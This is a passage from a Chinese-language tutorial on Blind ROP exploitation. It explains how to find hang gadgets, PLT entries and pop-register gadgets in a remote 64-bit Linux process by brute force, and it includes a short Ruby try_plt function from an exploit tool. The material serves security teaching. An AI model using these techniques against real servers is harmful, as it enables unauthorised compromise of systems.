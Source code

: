 这个hang gadget，就像之前我说的一样，同样，plt的原理和hang gadget很像。因此会在找hang gadget的时候，会执行paranoid_inf函数去找plt，这个函数中会调用try_plt，在这之前我大概说一下为什么找plt的原理和hang gadget很像。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t015e8321573a707c74.png)

plt项是连续的，而且在0字节，和6字节之后执行的内容都会正常进入后续处理，而不会崩溃或有返回，因此只要连续有多个16字节都会让进程block且每个16字节地址+6之后，也会block，那么这就有可能是个plt项。



```
def try_plt(addr, inf = @inf)  #找plt的核心函数
rop = [] #连续寻找16字节对齐地址，以及+6位置，两个汇编指令是否会crash，不会的话就可能是plt项
rop &lt;&lt; addr
rop &lt;&lt; (addr + 6)
rop &lt;&lt; inf
rop &lt;&lt; inf
r = try_rop_print(addr, rop)
return false if r != RC_INF
rop = []
rop &lt;&lt; addr
rop &lt;&lt; (addr + 6)
rop &lt;&lt; DEATH
r = try_rop_print(addr, rop)
return false if r != RC_CRASH
return true
end
```

这样，就可以找到hang gadget和plt项，这两个都是在后续Exploit中的重要的组件。

[![](https://p3.ssl.qhimg.com/t017f96bf591fc1b80d.jpg)](https://p3.ssl.qhimg.com/t017f96bf591fc1b80d.jpg)

接下来，有了hang gadget，我们就可以找到BROP gadget了，这个BROP gadget，是我们组成在开头提到通过write方法dump内存的重要部分，和ROP gadget的概念很像，为了组成这个write函数，需要三个参数，也就是需要三个ROP gadget：pop rdi,ret;  pop rsi,ret;  pop rdx,ret;  因为在64位Linux中，参数不是靠push寄存器入栈决定的，而是由寄存器本身决定的，这三个参数对应的就是rdi，rsi和rdx寄存器中的内容。因此我们利用hang gadget来暴力搜索这些BROP gadget，如何判断呢？

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01e31286204ab59136.png)

在ret后放很多hang addr，只要命中pop ret，pop pop ret这种gadget，都会进入block状态，通过这种方法，我们找到6个pop ret，就能找到一个在linux下常见的结构，通过计算这个结构的偏移，就能得到pop rsi,ret和pop rdi,ret了。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012a1e3d40839a8cf1.png)

为了找到这6个pop，我们就在ret后放6个crash gadget，然后放一个hang gadget，这样碰到6个pop的时候，之前的crash gadget会全部出栈，ret后会block，而其他情况，都会处于crash的状态。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0105222088052de625.png)
